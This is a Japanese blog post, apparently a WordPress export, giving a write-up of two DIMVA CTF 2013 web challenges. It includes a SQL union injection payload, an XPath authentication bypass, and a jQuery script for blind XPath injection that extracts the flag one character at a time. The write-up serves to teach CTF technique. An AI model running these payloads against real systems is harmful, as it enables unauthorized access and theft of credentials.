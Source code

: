 ```yaml
---
title: DIMVA CTF 2013 writeup
author: tyage
type: post
date: 2013-07-19T16:29:48+00:00
url: /?p=697
wp-syntax-cache-content:
  - |
    a:2:{i:1;s:959:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>10
    </pre></td><td class="code"><pre class="html5" style="font-family:monospace;">'user' and/or 'password' parameters missing, please provide an xml parameter of the following form to login: <span style="color: #009900;">&lt;login&gt;&lt;user&gt;</span>(base64-encoded username)<span style="color: #009900;">&lt;<span style="color: #66cc66;">/</span>user&gt;&lt;password&gt;</span>(base64-encoded password)<span style="color: #009900;">&lt;<span style="color: #66cc66;">/</span>password&gt;&lt;<span style="color: #66cc66;">/</span>login&gt;</span></pre></td></tr></table><p class="theCode" style="display:none;">'user' and/or 'password' parameters missing, please provide an xml parameter of the following form to login: &lt;login&gt;&lt;user&gt;(base64-encoded username)&lt;/user&gt;&lt;password&gt;(base64-encoded password)&lt;/password&gt;&lt;/login&gt;</p></div>
    ";i:2;s:5063:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="javascript" style="font-family:monospace;"><span style="color: #000066; font-weight: bold;">var</span> search <span style="color: #339933;">=</span> <span style="color: #3366CC;">&quot;c0ffee&quot;</span><span style="color: #339933;">;</span>
    &nbsp;
    <span style="color: #000066; font-weight: bold;">var</span> test <span style="color: #339933;">=</span> <span style="color: #000066; font-weight: bold;">function</span><span style="color: #009900;">&#40;</span>next<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
    	$.<span style="color: #660066;">ajax</span><span style="color: #009900;">&#40;</span><span style="color: #009900;">&#123;</span>
    		url<span style="color: #339933;">:</span> <span style="color: #3366CC;">&quot;/&quot;</span><span style="color: #339933;">,</span>
    		data<span style="color: #339933;">:</span> <span style="color: #009900;">&#123;</span>
    			user<span style="color: #339933;">:</span> <span style="color: #3366CC;">&quot;&quot;</span><span style="color: #339933;">,</span>
    			password<span style="color: #339933;">:</span> Base64.<span style="color: #660066;">encode</span><span style="color: #009900;">&#40;</span><span style="color: #3366CC;">&quot;' | //User[contains(.,'&quot;</span> <span style="color: #339933;">+</span> search <span style="color: #339933;">+</span> next<span style="color: #009900;">&#41;</span>
    		<span style="color: #009900;">&#125;</span>
    	<span style="color: #009900;">&#125;</span><span style="color: #009900;">&#41;</span>.<span style="color: #660066;">done</span><span style="color: #009900;">&#40;</span><span style="color: #000066; font-weight: bold;">function</span><span style="color: #009900;">&#40;</span>data<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
    		search <span style="color: #339933;">+=</span> next
    		nextTest<span style="color: #009900;">&#40;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    	<span style="color: #009900;">&#125;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    <span style="color: #009900;">&#125;</span><span style="color: #339933;">;</span>
    &nbsp;
    <span style="color: #000066; font-weight: bold;">var</span> nextTest <span style="color: #339933;">=</span> <span style="color: #000066; font-weight: bold;">function</span><span style="color: #009900;">&#40;</span><span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
    	<span style="color: #000066; font-weight: bold;">for</span> <span style="color: #009900;">&#40;</span><span style="color: #000066; font-weight: bold;">var</span> i<span style="color: #339933;">=</span><span style="color: #3366CC;">&quot;a&quot;</span>.<span style="color: #660066;">charCodeAt</span><span style="color: #009900;">&#40;</span><span style="color: #CC0000;">0</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>i<span style="color: #339933;">&lt;=</span><span style="color: #3366CC;">&quot;z&quot;</span>.<span style="color: #660066;">charCodeAt</span><span style="color: #009900;">&#40;</span><span style="color: #CC0000;">0</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;++</span>i<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
    		test<span style="color: #009900;">&#40;</span><span style="">String</span>.<span style="color: #660066;">fromCharCode</span><span style="color: #009900;">&#40;</span>i<span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    	<span style="color: #009900;">&#125;</span>
    	<span style="color: #000066; font-weight: bold;">for</span> <span style="color: #009900;">&#40;</span><span style="color: #000066; font-weight: bold;">var</span> i<span style="color: #339933;">=</span><span style="color: #CC0000;">0</span><span style="color: #339933;">;</span>i<span style="color: #339933;">&lt;=</span><span style="color: #CC0000;">9</span><span style="color: #339933;">;++</span>i<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
    		test<span style="color: #009900;">&#40;</span>i<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    	<span style="color: #009900;">&#125;</span>
    <span style="color: #009900;">&#125;</span><span style="color: #339933;">;</span></pre></td></tr></table><p class="theCode" style="display:none;">var search = &quot;c0ffee&quot;;
    
    var test = function(next) {
    	$.ajax({
    		url: &quot;/&quot;,
    		data: {
    			user: &quot;&quot;,
    			password: Base64.encode(&quot;' | //User[contains(.,'&quot; + search + next)
    		}
    	}).done(function(data) {
    		search += next
    		nextTest();
    	});
    };
    
    var nextTest = function() {
    	for (var i=&quot;a&quot;.charCodeAt(0);i&lt;=&quot;z&quot;.charCodeAt(0);++i) {
    		test(String.fromCharCode(i));
    	}
    	for (var i=0;i&lt;=9;++i) {
    		test(i);
    	}
    };</p></div>
    ";}
categories:
  - CTF

---
```

<p><a href="https://dimvactf.0x90.eu" title="DIMVA CTF">DIMVA CTF</a>に参加していた。</p>
<p>私のチーム（Epsilon Delta）は850ポイントで17位だった。</p>
<h3>Web 100</h3>
<p>画像アップローダーが用意されており、どうにかこうにかする問題。</p>
<p>はじめにいくつか画像が用意されており、パスワードを入力しないと閲覧できない画像があったため、そのパスワードを求める問題と推察される。</p>
<p>各画像にはタグがついており、同じタグを持つ写真を一覧で見れる。</p>
<p>しかし、シングルクオートの入ったタグの場合は一覧ページでエラーが発生していたため、SQLインジェクションがあるとわかった。</p>
<p>画像をアップロードした際、画像のコメントがタグになって登録されるので、そこにSQLインジェクションを埋め込む。</p>
<pre>
' union all select password from pictures--
</pre>
<p>その後、一覧ページを閲覧することでパスワードが入手でき、c0ffeeからはじまるパスワードがFlagであると判明した。</p>
<pre>
c0ffee29e34ad42d38cbe236913c911a
</pre>
<p>パスワード付きの画像はこんな感じだった。</p>
<p><a href="https://blog.tyage.net/wp-content/uploads/2013/07/4567.jpg"><img data-attachment-id="699" data-permalink="https://blog.tyage.net/?attachment_id=699" data-orig-file="https://blog.tyage.net/wp-content/uploads/2013/07/4567.jpg" data-orig-size="616,425" data-comments-opened="1" data-image-meta="{&quot;aperture&quot;:&quot;9&quot;,&quot;credit&quot;:&quot;&quot;,&quot;camera&quot;:&quot;DSLR-A700&quot;,&quot;caption&quot;:&quot;SONY DSC&quot;,&quot;created_timestamp&quot;:&quot;1226238208&quot;,&quot;copyright&quot;:&quot;&quot;,&quot;focal_length&quot;:&quot;210&quot;,&quot;iso&quot;:&quot;800&quot;,&quot;shutter_speed&quot;:&quot;0.001&quot;,&quot;title&quot;:&quot;SONY DSC&quot;,&quot;orientation&quot;:&quot;1&quot;}" data-image-title="SONY DSC" data-image-description="" data-medium-file="https://blog.tyage.net/wp-content/uploads/2013/07/4567.jpg" data-large-file="https://blog.tyage.net/wp-content/uploads/2013/07/4567.jpg" src="http://blog.tyage.net/wp-content/uploads/2013/07/4567-300x206.jpg" alt="SONY DSC" width="300" height="206" class="alignnone size-medium wp-image-699" /></a></p>
<p>素直でわかりやすい問題だったように思う。</p>
<h3>Web 200</h3>
<p>普通にアクセスすると</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>10
</pre></td><td class="code"><pre class="html5" style="font-family:monospace;">'user' and/or 'password' parameters missing, please provide an xml parameter of the following form to login: <span style="color: #009900;">&lt;login&gt;&lt;user&gt;</span>(base64-encoded username)<span style="color: #009900;">&lt;<span style="color: #66cc66;">/</span>user&gt;&lt;password&gt;</span>(base64-encoded password)<span style="color: #009900;">&lt;<span style="color: #66cc66;">/</span>password&gt;&lt;<span style="color: #66cc66;">/</span>login&gt;</span></pre></td></tr></table></div>

<p>ってのが返って来る。</p>
<p>一日近く、urlにログイン用xmlを足したり、ファイルとして送信したり、送信するパケットのいろんなところに埋め込んだりして悩んだ。。。</p>
<p>コンテスト終了直前になって、/?xml=<login>&#8230;とすればログインできることに気づく。</p>
<p>xml parameterってのが素直にxmlって名前のリクエストパラメータだったのに、そこに気づくまでに一日かかって英語の壁を感じる。</p>
<p>これがわかればあとは解くだけ。</p>
<p>とりあえず色々試していると、以下のレスポンスが返って来たため、XPathへのインジェクションだとわかった。</p>
<pre>
 Error during login: Query: //User[UserName/text()='' and Password/text()='' '... ........................................................^^^ Invalid query somewhere around here (I think)
</pre>
<p>「&#8217; or &#8216;1&#8217;=&#8217;1」とかしてログインに成功すると、htmlのコメントで「users.xml~が残ってるからあとで消すように」と書かれているのでアクセスしてみる。</p>
<p>xml形式のユーザーデータがあり、「c0ffeefa7745f449c26000a2612affec」というデータがあったので、それをFlagとして送信したが失敗。</p>
<p>どうやらuser.xml~は古いデータらしく、現在は別のものに置き換わっている模様。</p>
<p>なのでblind injectionを利用して現在のデータからFlagを取得する。</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="javascript" style="font-family:monospace;"><span style="color: #000066; font-weight: bold;">var</span> search <span style="color: #339933;">=</span> <span style="color: #3366CC;">&quot;c0ffee&quot;</span><span style="color: #339933;">;</span>
&nbsp;
<span style="color: #000066; font-weight: bold;">var</span> test <span style="color: #339933;">=</span> <span style="color: #000066; font-weight: bold;">function</span><span style="color: #009900;">&#40;</span>next<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
	$.<span style="color: #660066;">ajax</span><span style="color: #009900;">&#40;</span><span style="color: #009900;">&#123;</span>
		url<span style="color: #339933;">:</span> <span style="color: #3366CC;">&quot;/&quot;</span><span style="color: #339933;">,</span>
		data<span style="color: #339933;">:</span> <span style="color: #009900;">&#123;</span>
			user<span style="color: #339933;">:</span> <span style="color: #3366CC;">&quot;&quot;</span><span style="color: #339933;">,</span>
			password<span style="color: #339933;">:</span> Base64.<span style="color: #660066;">encode</span><span style="color: #009900;">&#40;</span><span style="color: #3366CC;">&quot;' | //User[contains(.,'&quot;</span> <span style="color: #339933;">+</span> search <span style="color: #339933;">+</span> next<span style="color: #009900;">&#41;</span>
		<span style="color: #009900;">&#125;</span>
	<span style="color: #009900;">&#125;</span><span style="color: #009900;">&#41;</span>.<span style="color: #660066;">done</span><span style="color: #009900;">&#40;</span><span style="color: #000066; font-weight: bold;">function</span><span style="color: #009900;">&#40;</span>data<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
		search <span style="color: #339933;">+=</span> next
		nextTest<span style="color: #009900;">&#40;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
	<span style="color: #009900;">&#125;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
<span style="color: #009900;">&#125;</span><span style="color: #339933;">;</span>
&nbsp;
<span style="color: #000066; font-weight: bold;">var</span> nextTest <span style="color: #339933;">=</span> <span style="color: #000066; font-weight: bold;">function</span><span style="color: #009900;">&#40;</span><span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
	<span style="color: #000066; font-weight: bold;">for</span> <span style="color: #009900;">&#40;</span><span style="color: #000066; font-weight: bold;">var</span> i<span style="color: #339933;">=</span><span style="color: #3366CC;">&quot;a&quot;</span>.<span style="color: #660066;">charCodeAt</span><span style="color: #009900;">&#40;</span><span style="color: #CC0000;">0</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>i<span style="color: #339933;">&lt;=</span><span style="color: #3366CC;">&quot;z&quot;</span>.<span style="color: #660066;">charCodeAt</span><span style="color: #009900;">&#40;</span><span style="color: #CC0000;">0</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;++</span>i<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
		test<span style="color: #009900;">&#40;</span><span style="">String</span>.<span style="color: #660066;">fromCharCode</span><span style="color: #009900;">&#40;</span>i<span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
	<span style="color: #009900;">&#125;</span>
	<span style="color: #000066; font-weight: bold;">for</span> <span style="color: #009900;">&#40;</span><span style="color: #000066; font-weight: bold;">var</span> i<span style="color: #339933;">=</span><span style="color: #CC0000;">0</span><span style="color: #339933;">;</span>i<span style="color: #339933;">&lt;=</span><span style="color: #CC0000;">9</span><span style="color: #339933;">;++</span>i<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
		test<span style="color: #009900;">&#40;</span>i<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
	<span style="color: #009900;">&#125;</span>
<span style="color: #009900;">&#125;</span><span style="color: #339933;">;</span></pre></td></tr></table></div>

<p>以下のFlagが得られる。</p>
<pre>
c0ffee153dbc077ea80f4e697a63ec1e
</pre>
<p>Accepted!!!</p>
